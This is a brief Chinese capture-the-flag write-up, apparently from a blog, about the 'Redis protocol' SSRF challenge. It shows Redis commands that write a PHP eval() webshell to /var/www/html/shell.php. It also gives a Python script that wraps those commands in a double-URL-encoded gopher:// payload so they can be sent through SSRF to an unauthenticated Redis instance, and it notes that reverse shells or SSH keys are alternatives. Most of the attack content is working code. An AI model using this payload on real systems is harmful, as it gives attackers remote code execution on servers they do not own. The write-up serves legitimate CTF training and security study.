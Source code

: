 <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/1e42159f5ced4f54bcef0a969d161682.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/58b062c928fb455fbeb44cb294c06a29.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

#### Redis协议

> 
题目描述：这次来攻击redis协议吧，redis://127.0.0.1:6379,，资料？没有资料！自己找！


> 
利用SSRF对目标主机上的Redis进行未授权访问攻击，探测一下目标主机开启的端口，在6379端口发现Redis的报错


> 
利用未授权访问攻击Redis的方法有很多，可以写webshell、反弹shell，也可以写ssh公钥，这里采用写webshell的方法<br/> 构造redis命令


```
flushall
set 1 '&lt;?php eval($_POST["whoami"]);?&gt;'
config set dir /var/www/html
config set dbfilename shell.php
save

```

```
import urllib.parse
protocol="gopher://"
ip="127.0.0.1"
port="6379"
shell="\n\n&lt;?php eval($_POST[\"whoami\"]);?&gt;\n\n"
filename="shell.php"
path="/var/www/html"
passwd=""
cmd=["flushall",
"set 1 {}".format(shell.replace(" ","${IFS}")),
"config set dir {}".format(path),
"config set dbfilename {}".format(filename),
"save"
]
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
        cmd+=CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += urllib.parse.quote(redis_format(x))
    print(urllib.parse.quote(payload))    # 由于我们这里是GET，所以要进行两次url编码

```
